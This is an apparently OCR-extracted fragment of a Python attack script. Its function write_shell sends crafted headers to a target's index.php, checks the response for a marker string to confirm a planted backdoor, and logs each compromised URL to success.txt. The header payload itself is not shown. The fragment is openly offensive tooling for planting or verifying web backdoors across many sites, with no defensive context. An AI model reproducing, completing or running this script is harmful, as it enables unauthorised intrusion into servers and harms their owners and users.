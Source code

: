 

    def write_shell(url,headers):
        try:
            r = requests.get(url=url+'/index.php', headers=headers, verify=False,timeout=30)
            if "qing" in r.text:
                print ('[ + ] BackDoor successful: '+url+'===============[ + ]\n')
                with open('success.txt','a') as f:
                        f.write(url+'\n')
            else:
                print ('[ - ] BackDoor failed: '+url+'[ - ]\n')
        except:
            print ('[ - ] Timeout: '+url+' [ - ]\n')

    url = "http://xxx"
    write_shell(url=url,headers=headers)
